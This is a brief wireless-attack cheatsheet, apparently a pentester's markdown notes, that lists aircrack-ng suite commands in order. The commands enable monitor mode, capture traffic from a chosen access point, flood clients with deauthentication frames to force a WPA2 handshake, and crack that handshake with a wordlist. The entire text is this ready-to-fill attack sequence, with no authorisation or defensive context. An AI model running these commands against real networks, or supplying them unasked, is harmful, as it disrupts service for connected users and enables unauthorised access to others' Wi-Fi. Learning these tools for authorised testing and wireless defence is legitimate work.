 # Wireless cheatsheet

airmon-ng check kill
airmon-ng start [wlan0]
airodump-ng [wlan0mon]
airodump-ng --channel [channel] --bssid [bssid] --write [file] [wlan0mon]
aireplay-ng --deauth 5 -a [bssid] [wlan0mon]
aircrack-ng -a2 -b [bssid] -w [wordlist] [path.cap]
